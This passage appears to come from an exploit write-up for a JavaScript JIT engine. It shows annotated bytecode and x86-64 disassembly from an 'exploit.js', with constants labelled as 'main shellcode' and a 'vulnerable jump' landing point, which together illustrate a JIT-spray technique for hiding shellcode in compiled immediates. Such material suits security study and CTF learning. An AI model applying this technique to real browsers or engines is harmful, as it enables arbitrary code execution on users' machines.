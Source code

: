 ```shell
[ 5c0] LoadImmediate 13404651    #--> vulnerable jump landing point
[ 5e0] NewArray                  #--> padding at the end of if block
[ 600] NewString 0 ("a")
[ 620] NewArray
[ 640] NewArray
[ 660] Jump @9                   #--> the vulnerable jump                   
8:
[   0] LoadImmediate undefined
[  20] NewArray
[  40] NewArray                  #--> padding in else block
[  60] NewArray
[  80] NewArray
[  a0] Jump @9                   #--> the vulnerable jump
9:
[   0] Jump @5


Disassembly of '' (exploit.js:1:1):
entry:
0x00007fd8b1da9000  55                    push   rbp
0x00007fd8b1da9001  48 89 e5              mov    rbp,rsp
0x00007fd8b1da9004  53                    push   rbx
0x00007fd8b1da9005  53                    push   rbx
(...)
Block 7:
7:0 LoadImmediate undefined:
0x00007fd8b1da98c3  48 b8 00 00 00 00 00  mov    rax, 0x7ffe000000000000
0x00007fd8b1da98ca  00 fe 7f
0x00007fd8b1da98cd  49 89 c4              mov    r12,rax
7:20 LoadImmediate 166396010:
0x00007fd8b1da98d0  48 b8 6a 00 eb 09 00  mov    rax, 0x7ffa000009eb006a    # main shellcode
0x00007fd8b1da98d7  00 fa 7f
0x00007fd8b1da98da  49 89 c4              mov    r12,rax
7:40 LoadImmediate 166422634:
0x00007fd8b1da98dd  48 b8 6a 68 eb 09 00  mov    rax, 0x7ffa000009eb686a
0x00007fd8b1da98e4  00 fa 7f
0x00007fd8b1da98e7  49 89 c4              mov    r12,rax
(...)
7:5c0 LoadImmediate 13404651:
0x00007fd8b1da9b19  48 b8 eb 89 cc 00 00  mov    rax, 0x7ffa000000cc89eb    # landing point of the vulnerable jump
0x00007fd8b1da9b20  00 fa 7f
0x00007fd8b1da9b23  49 89 c4              mov    r12,rax
7:5e0 NewArray:                                                             # padding at the end of the if block
0x00007fd8b1da9b26  31 f6                 xor    esi,esi
0x00007fd8b1da9b28  31 d2                 xor    edx,edx
0x00007fd8b1da9b2a  57                    push   rdi
0x00007fd8b1da9b2b  6a 00                 push   0x00
0x00007fd8b1da9b2d  48 b8 a0 dc 59 b2 d8  mov    rax, 0x00007fd8b259dca0
0x00007fd8b1da9b34  7f 00 00
0x00007fd8b1da9b37  ff d0                 call   eax
0x00007fd8b1da9b39  48 83 c4 08           add    rsp,0x08
0x00007fd8b1da9b3d  5f                    pop    rdi
0x00007fd8b1da9b3e  49 89 c4              mov    r12,rax
7:600 NewString 0 ("a"):
0x00007fd8b1da9b41  48 be c0 e7 4d 45 69  mov    rsi, 0x00005569454de7c0
0x00007fd8b1da9b48  55 00 00
0x00007fd8b1da9b4b  57                    push   rdi
0x00007fd8b1da9b4c  6a 00                 push   0x00
0x00007fd8b1da9b4e  48 b8 f0 d7 59 b2 d8  mov    rax, 0x00007fd8b259d7f0
0x00007fd8b1da9b55  7f 00 00
0x00007fd8b1da9b58  ff d0                 call   eax
```